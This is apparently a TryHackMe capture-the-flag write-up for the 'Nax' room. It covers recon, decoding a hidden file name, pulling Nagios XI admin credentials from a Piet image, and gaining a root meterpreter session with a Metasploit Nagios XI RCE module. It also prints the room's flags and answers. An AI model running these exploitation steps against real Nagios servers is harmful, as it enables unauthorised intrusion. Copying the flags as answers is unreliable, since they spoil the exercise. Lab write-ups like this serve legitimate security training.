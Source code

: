 # Nax

## nmap
Command:
```bash
nmap 10.10.52.148 -sV -sC -oN nmap_results -p- -vv
```

Relevant ports:
- 80

## website
The website shows the following text:\
"Welcome to elements.                   Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr"

Aligning the [Periodic table of elements](https://upload.wikimedia.org/wikipedia/commons/8/89/Colour_18-col_PT_with_labels.png) 
     and the [Ascii table](https://upload.wikimedia.org/wikipedia/commons/2/26/ASCII_Table_%28suitable_for_printing%29.svg),
    we get this:
| Element | ordinal number | ascii character |
| ------- | -------------- | --------------- |
|   Ag    |       47       |        /        |
|   Hg    |       80       |        P        |
|   Ta    |       73       |        I        |
|   Sb    |       51       |        3        |
|   Po    |       84       |        T        |
|   Pd    |       46       |        .        |
|   Hg    |       80       |        P        |
|   Pt    |       78       |        N        |
|   Lr    |      103       |        g        |

### "What hidden file did you find?"
==> **PI3T.PNg**

```bash
curl -LO $IP/PI3T.PNg

exiftool PI3T.PNg # -> Piet Mondrian
```

### "Who is the creator of the file?"
==> **Piet Mondrian**


## [Piet](https://esolangs.org/wiki/Piet)

*TLDR: Piet is an esolang in which a program looks like an abstract painting*

Interpreting the file using fpiet [(aur)](https://aur.archlinux.org/packages/fpiet):
```bash
fpiet PI3T.PNg # -> error
gimp PI3T.PNg # File -> Export as ... -> PI3T_updated.png -> Export
fpiet PI3T_updated.png | head -c 32 # -> nagiosadmin%n3p3UQ&9BjLp4$7uhWdY
```

Splitting *nagiosadmin%n3p3UQ&9BjLp4$7uhWdY* on % seems to return a username and password

### "What is the username you found?"
==> **nagiosadmin**

### "What is the password you found?"
==> **n3p3UQ&9BjLp4$7uhWdY**



## gobuster
Command:
```bash
gobuster -u $IP -w /opt/wordlists/dsstorewordlist.txt -r | tee gobuster_results.txt
```

Relevant results:
- /index.php


From `/index.php` there's a link to `/nagiosxi/login.php`

Using *nagiosadmin* and *n3p3UQ&9BjLp4$7uhWdY* as username and password we can log in to [Nagios Xi](https://www.nagios.com/)


## Nagios Xi

Trying to do anything always shows "License expired", so we first switch to a free license (*Enter your license key* -> *License Type:* Free, *Update License* )

Right away there's a message that a new update is available. In the bottom left of the page it says 'Nagios XI 5.5.6', so there might be a vulnerability for this version.

## exploitation

```bash
searchsploit nagios # -> Nagios XI 5.5.6 - Magpie_debug.php Root Remote Code Execution
# Note: THM actually expected a different exploit but I imagine the process is similar
# Expected payload: exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce

msfconsole
    # metasploit console

    search nagios
    use exploit/linux/http/nagios_xi_magpie_debug
    
    # get host ip
    echo $IP
    set RHOSTS <host ip>

    # get local ip
    ip a | grep tun0
    set RSRVHOST <local ip>

    set LHOST <local ip>

    run

    sessions -i 1
        # meterpreter

        ls /home # -> galand
        cd /home/galand
        ls # -> user.txt
        cat user.txt # -> THM{84b17add1d72a9f2e99c33bc568ae0f1}

        cd /root
        ls -al # -> root.txt

        cat /root/root.txt # -> THM{c89b2e39c83067503a6508b21ed6e962}
```

### "What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000"
==> **CVE-2019-15949**


### "After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?"
==> **exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce**


### "Compromise the machine and locate user.txt"
==> **THM{84b17add1d72a9f2e99c33bc568ae0f1}**


### "Locate root.txt"
==> **THM{c89b2e39c83067503a6508b21ed6e962}**
